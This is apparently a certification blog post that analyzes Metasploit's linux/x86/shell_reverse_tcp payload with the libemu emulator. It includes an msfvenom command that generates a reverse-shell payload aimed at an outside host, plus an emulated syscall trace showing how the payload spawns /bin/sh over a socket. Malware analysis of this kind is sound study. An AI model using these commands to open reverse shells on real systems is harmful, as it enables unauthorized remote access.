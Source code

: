 ```yaml
---
title: "Linux x86 Shellcoding: Analysis of linux/x86/shell_reverse_tcp with Libemu"
date: 2018-04-09T17:16:07+02:00
---
```


Our goal will be to analyze the `linux/x86/shell_reverse_tcp` payload that comes bundled with Metasploit. In order to do so, we will use libemu, a library offering x86 emulation.

First, we will check out which options are needed to generate a sample with `msfvenom`.

```shell
root@kali:~# msfvenom -p linux/x86/shell_reverse_tcp --payload-options
Options for payload/linux/x86/shell_reverse_tcp:


       Name: Linux Command Shell, Reverse TCP Inline
     Module: payload/linux/x86/shell_reverse_tcp
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 68
       Rank: Normal

Provided by:
    Ramon de C Valle <rcvalle@metasploit.com>
    joev <joev@metasploit.com>

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
CMD    /bin/sh          yes       The command string to execute
LHOST                   yes       The listen address
LPORT  4444             yes       The listen port

Description:
  Connect back to attacker and spawn a command shell


Advanced options for payload/linux/x86/shell_reverse_tcp:

...
```

Therefore, we need to specify a value for `LHOST`, which for our exercise will be `192.168.10.10`.

We can then generate the payload with `msfvenom` and pipe it to libemu by using the following command:

```shell
root@kali:~# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.10.10 -f raw | sctest -S -s 100000 -vvv -G tcp_reverse_shell.dot
verbose = 3
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes

...
```

```c
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 168470720 (host=192.168.10.10);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;

```

The `sctest` output includes a nice C-like representation of the system calls being used in the shellcode, and we can clearly see the different elements that conform the typical reverse shell shellcode, like the one whose creation we described in a previous blog post.

Let's observe the execution flow with a graphical representation, which was generated as a dot file from the `-G` argument we specified for `sctest`. We can create a PNG image from this file easily: 

```
root@kali:~# dot tcp_reverse_shell.dot -T png > tcp_reverse_shell.png
```

![sctest TCP reverse shell graphical representation](/images/tcp_reverse_shell_sctest.png)

We can now see the flow clearly.


1. `socket()`: A socket is created by executing this system call with the following arguments:
2. `dup2()`: Called inside a loop to redirect `stderr`, `stdout` and `stdin` to the socket (2, 1, 0 respectively).
3. `connect()`: takes the file descriptor for the socket and a structure that contains the IP and port to connect to.
4. `execve()`: executes `/bin/sh`, and since standard input, output and error are redirected to the socket, it will effectively bring our shell to the remote IP and port, thus establishing the so-called reverse shell.




---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:*

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

*Student ID: SLAE-964*
